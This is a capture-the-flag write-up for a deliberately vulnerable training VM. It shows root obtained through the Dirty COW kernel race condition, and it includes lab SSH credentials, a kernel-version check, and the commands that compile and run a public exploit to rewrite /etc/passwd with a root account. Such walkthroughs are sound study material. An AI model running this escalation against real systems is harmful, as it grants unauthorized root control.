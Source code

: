 # BONUS1 : DIRTY COW

When we search a way to get root on syslinux for writeup2, we found an other way called dirtycow, who exploit a `race-condition vulnerability`. (
[dirty cow](https://en.wikipedia.org/wiki/Dirty_COW#:~:text=The%20vulnerability%20has%20been%20patched,26%20and%20newer.))

This vulnerability is fixed on kernel version 4.8 and superior, so we need to know our version of kernel, and be connected:

ssh user: `thor`  
ssh password: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

```bash
ssh thor@{IP}

> uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux

```

We are now sure that dirtycow is possible, the version is bellow 4.8.

After some tests, we found this script of dirty cow who works on our vm : [dirtycow link](https://github.com/FireFart/dirtycow)

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line in /etc/passwd.

We create a file dirty.c with this script, then run with the command given by the creator of the script:

```bash
> gcc -pthread dirty.c -o dirty -lcrypt
> ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: test

> su firefart
Password: test
```

After this, we need to restore `/etc/passwd` with `mv /tmp/passwd.bak /etc/passwd`.

```bash
> whoami
root
```